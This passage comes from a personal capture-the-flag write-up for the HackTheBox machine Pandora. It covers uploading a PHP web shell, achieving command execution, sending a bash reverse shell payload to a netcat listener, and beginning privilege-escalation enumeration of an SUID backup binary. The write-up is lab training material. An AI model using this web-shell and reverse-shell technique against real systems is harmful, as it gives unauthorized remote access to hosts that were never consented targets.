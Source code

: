 Upload this to the web server 

![[HackTheBox/Linux/attachments/Pasted image 20250511221228.png]]
- success!

Click on shell.php within the images directory and add the 'whoami' argument to our cmd parameter 
![[HackTheBox/Linux/attachments/Pasted image 20250511221332.png]]
- we got code execution

### Reverse shell time 

Intercept this web request with Burp and convert to a POST request and add bash shell payload 

bash shell payload 
```
bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1' 
```

And url-encode this payload
![[HackTheBox/Linux/attachments/Pasted image 20250511221644.png]]

Set up nc listener and catch the reverse shell 

![[HackTheBox/Linux/attachments/Pasted image 20250511221733.png]]

❗got initial access as matt❗

Spawn interactive shell. 

### Enumerate for Priv Esc 

Checking out matt's files 
![[HackTheBox/Linux/attachments/Pasted image 20250511221902.png]]

#### LinPEAS

Transfer LinPEAS and execute 

Reviewing output and see an unknown SUID binary for pandora_backup 

![[HackTheBox/Linux/attachments/Pasted image 20250511222518.png]]

### Interesting SUID binary found

/usr/bin/pandora_backup
Enumerating this binary...

#### execute it 
```
/usr/bin/pandora_backup
```

![[HackTheBox/Linux/attachments/Pasted image 20250511223305.png]]
- tar is attempting to archive stuff but we don't have permissions to execute tar
#### file 
```
file /usr/bin/pandora_backup
```
